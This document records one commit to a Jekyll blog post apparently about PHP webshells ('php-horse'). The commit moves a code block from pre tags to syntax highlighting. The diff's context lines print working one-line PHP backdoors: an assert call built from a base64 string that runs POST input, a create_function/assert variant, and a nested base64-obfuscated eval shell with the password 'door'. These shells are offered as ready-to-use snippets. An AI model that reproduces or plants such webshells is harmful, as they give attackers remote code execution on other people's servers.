

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-27-php-horse.md, in a window 1280 px wide and 900 px high, scrolled down 853 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; before the commit the page ends 1723 px from its top, so only the background shows below that.

Commit message:
Update 2015-04-27-php-horse.md

```diff
--- a/_posts/2015-04-27-php-horse.md
+++ b/_posts/2015-04-27-php-horse.md
@@ -66,16 +66,15 @@ if ($cmd=='code')
 ?>
 {% endhighlight %}
 
-{% raw %}
-<pre>
+
 其他一句话：
+{% highlight php %}
 <?php $x=base64_decode("YXNzZXJ0");$x($_POST['c']);?>
 <?php call_user_func(create_function(null,'assert($_POST[c]);'));?>
 
 //口令是： door
 <?php eval(base64_decode(ZXZhbChiYXNlNjRfZGVjb2RlKFpYWmhiQ2hpWVhObE5qUmZaR1ZqYjJSbEtFeDVPRGhRTTBKdlkwRndiR1J0Um5OTFExSm1WVVU1VkZaR2RHdGlNamw1V0ZOclMweDVPQzVqYUhJb05EY3BMbEJuS1NrNykpOw));?>
-</pre>
-{% endraw %}
+{% endhighlight %}
 
 php函数参考网站：
 [create_function](http://php.net/manual/en/function.create-function.php)
```
